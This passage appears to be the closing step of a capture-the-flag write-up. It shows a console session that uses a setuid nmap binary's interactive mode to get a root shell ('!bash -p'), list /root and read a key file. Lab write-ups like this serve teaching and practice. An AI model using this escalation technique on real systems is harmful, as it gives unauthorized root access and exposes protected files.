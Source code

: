 Nmap isn't expected to have a `setuid bit, I realized it's vulnerable to a priv escalation vulnerability: https://gist.github.com/dergachev/7916152

```console
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !bash -p
!bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cd /root
cd /root
bash-4.3# ls -al
ls -al
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
bash-4.3# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

Aaand we're done! Quite simple one.
